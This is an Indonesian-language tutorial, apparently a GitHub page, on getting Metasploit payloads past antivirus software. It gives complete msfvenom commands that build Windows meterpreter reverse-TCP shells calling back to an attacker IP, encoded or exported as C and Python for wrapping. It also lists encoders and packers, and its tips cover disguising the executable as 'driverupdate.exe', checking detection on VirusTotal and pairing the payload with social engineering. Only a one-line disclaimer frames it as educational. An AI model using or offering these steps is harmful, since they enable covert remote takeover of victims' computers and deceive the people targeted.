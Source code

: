 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV |
| `Packing` / `Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode` |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.100`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe` 

Encoder Populer di Metasploit:
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek semua encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

1. Format C:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `c`
   - `-o` : Nama file hasil payload: `payload.c`

  
Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

2. Format Python:

  ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `python`
   - `-o` : Nama file hasil payload: `payload.py`
  
Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |
